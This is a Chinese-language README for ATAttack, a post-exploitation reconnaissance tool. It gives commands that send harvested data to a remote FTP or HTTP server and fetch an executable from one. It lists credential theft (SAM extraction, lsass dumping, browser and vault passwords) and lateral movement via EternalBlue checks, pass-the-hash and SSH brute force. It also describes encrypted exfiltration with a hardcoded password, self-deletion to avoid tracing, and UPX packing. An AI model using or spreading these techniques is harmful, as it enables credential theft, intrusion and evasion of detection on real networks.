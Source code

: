 #### 前言

​	 每获取一台机器权限，如果每次都手动操作重复一样的信息收集工作，无疑加大了工作量，既为了能更好的获取内网进一步突破点攻击面,这段闲暇时间造了个简易的轮子，其在真实环境中发现较多未知问题，欢迎大家踊跃提交 issue 和 PR ！

#### 开发进度：

#### 简介

**ATAttack**是一款后渗透半自动化侦察工具，它从进攻性和防御性安全角度执行许多面向安全性的主机调查“安全检查”。

项目地址：https://github.com/c1y2m3/ATAttack
## 已知故障和错误列表

- 系统容错问题，增加部分功能异常处理，提高稳定性。
- 部分内网ftp协议传输限制,后期添加HTTP PUT传输。
- pyinstaller打包后的可执行文件较大，建议在纯净环境下打包可执行文件更小

####  快照预览

###### win10测试环境

![](https://www.yunzhijia.com/microblog/filesvr/5dbe4d62b54c8d19b5579f55)

win2008测试环境：

![](https://www.yunzhijia.com/microblog/filesvr/5dc59c7d28011f682aaec035)

##### 使用方法

###### cmd.exe

存储于本地临时文件夹：

```
python exploit.py
```

回传远程FTP服务器：

```
python exploit.py -t ftp_host -u ftp_user -p ftp_pwd
```

通过PUT请求回传http服务端

```
python exploit.py -d http://10.10.10.10:8000/ 
```

HTTP分块传输落地可执行文件 

```
python http_client.py -d http://10.10.10.10./exploit.exe -u http://10.10.10.10:8000/ 
```

###### 一、基础信息获取：

1、系统驱动器、主机版本信息获取,当前系统进程识别，判断是否存在杀软av进程

2、单机所有用户以及当前用户RDP远程连接导出 

3、当前系统已安装程序列表获取 ,

4、在当前用户文件夹下查找指定文件，如word、pdf、txt、csv等敏感数据


###### 二、主机网段收集:

1、基于提取系统远程连接记录，如：远程桌面，arp缓存，windows系统日志(4624、4625)等

（浏览器浏览记录、单机系统记录，系统登录日志记录筛选提取IP）

2、主流浏览器浏览记录提取，通过位操作符判断筛选私有地址去重划分网段。

###### 三、凭证获取:

1、注册表存储sam提取、在线解密  %SystemRoot%\system32\config\sam  

2、使用comsvcs.dll 中MiniDump 函数 dump指定lsass进程,

如失败则使用procdump提取lsa缓存进程，回传ftp或http服务端，半自动化离线解密  

3、通过netsh 导出系统 wifi密码[暂时删除]、Windows Vaults 普通 / WEB 凭据提取

3、主流浏览器存储密码在线|离线模式解密,目前覆盖chrome、360chrome、ie,fiefox

fiefox浏览器解密基于key3.db、key4.db，logins.json文件，密钥加密，回传文件离线解密。

4、第三方主机软件 ，如 Navicat、Putty ,foxmail在线解密 [未完成]

###### 四、横向移动

1、探测网段存活，如存活则识别对应windows系统操作版本

2、如系统版本为windows系统，则检测是否存在永恒之蓝漏洞

3、基于解密出的ntlmhash，对存活主机进行pth哈希传递攻击，执行回显命令。

4、如系统为linux则对ssh端口服务进行探测，并进行爆破ssh弱口令。


###### 五：数据回传

将获取的数据落地到本地用户Temp文件夹下存储，进行加密压缩回传，解压密钥为：

`Za!@#$@&**(aKg`，尽可能避免了网络设备溯源，程序结束后进行自删除

1、系统所安装的浏览器浏览历史记录，暂命名为update.log

2、系统所搜索的敏感数据文件存储，暂命名为drive.txt

3、通过提取lsass进程所保存的内存文件，暂命名为lsass.dmp

4、内网主机所识别对应的windows版本，归属于工作组或域主机信息，暂命名为host.txt

## 打包ATAttack二进制文件

##### 测试打包环境:

- Python 2.7.15
- PyInstaller 3.4
- Windows 10

通过[UPX](https://upx.github.io/)压缩，使得ATAttack程序落地更小

- 下载UPX(测试环境为upx-3.95-win64版本)

  `https://github.com/upx/upx/releases`

- pip安装[pyinstaller](https://www.pyinstaller.org/)

  `pip install pyinstaller`

- 进入`ATAttack`目录,并通过upx压缩

  `pyinstaller -F exploit.py --upx-dir=upx-3.95-win64`

- 成功打包二进制控制台单文件`\ATAttack\dist]\exploit.exe`

